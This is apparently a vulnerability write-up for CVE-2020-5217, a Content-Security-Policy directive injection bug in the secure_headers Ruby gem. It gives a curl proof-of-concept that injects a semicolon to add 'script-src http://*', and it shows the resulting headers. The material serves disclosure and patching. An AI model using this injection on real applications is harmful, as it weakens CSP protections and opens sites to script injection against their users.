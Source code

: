 # CVE-2020-5217

In Secure Headers (RubyGem secure_headers), a directive injection vulnerability is present in versions before 3.8.0, 5.1.0, and 6.2.0. If user-supplied input was passed into append/override_content_security_policy_directives, a semicolon could be injected leading to directive injection. This could be used to e.g. override a script-src directive. Duplicate directives are ignored and the first one wins. The directives in secure_headers are sorted alphabetically so they pretty much all come before script-src. A previously undefined directive would receive a value even if SecureHeaders::OPT_OUT was supplied. The fixed versions will silently convert the semicolons to spaces and emit a deprecation warning when this happens. This will result in innocuous browser console messages if being exploited/accidentally used. In future releases, we will raise application errors resulting in 500s. Depending on what major version you are using, the fixed versions are 6.2.0, 5.1.0, 3.8.0.

In the first place; Overriding directive values with user-entered values is not recommended.


## Affected Version

[secure_headers](https://github.com/twitter/secure_headers) before 3.8.0, 5.1.0, and 6.2.0.

## PoC

```shell
$ bundle install
$ bundle exec rails s
```

```shell
$ curl --head 'http://localhost:3000?url1=https://google.com%3bscript-src&url2=http%3a%2f%2f%2a%3b%2e%3b'
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
ETag: W/"1bc04b5291c26a46d918139138b992d2"
Cache-Control: max-age=0, private, must-revalidate
X-Request-Id: 6e2f1b1c-c414-400b-bffb-bd8d9a05acb3
X-Runtime: 0.003500
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: origin-when-cross-origin, strict-origin-when-cross-origin
Content-Security-Policy: default-src 'none'; base-uri 'self'; block-all-mixed-content; child-src 'self'; connect-src wss:; font-src 'self' data:; form-action 'self' github.com; frame-ancestors https://google.com;script-src http://*;.;; img-src mycdn.com data:; manifest-src 'self'; media-src utoob.com; object-src 'self'; plugin-types application/x-shockwave-flash; sandbox; script-src 'self'; style-src 'unsafe-inline'; upgrade-insecure-requests; worker-src 'self'; report-uri https://report-uri.io/example-csp
Content-Security-Policy-Report-Only: default-src 'none'; base-uri 'self'; block-all-mixed-content; child-src 'self'; connect-src wss:; font-src 'self' data:; form-action 'self' github.com; frame-ancestors https://google.com;script-src http://*;.;; img-src somewhereelse.com; manifest-src 'self'; media-src utoob.com; object-src 'self'; plugin-types application/x-shockwave-flash; sandbox; script-src 'self'; style-src 'unsafe-inline'; upgrade-insecure-requests; worker-src 'self'; report-uri https://report-uri.io/example-csp-report-only
```

`script-src` contains a `http://*;`

## References

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5217
- https://github.com/twitter/secure_headers/pull/419/files
- https://github.com/twitter/secure_headers/issues/418

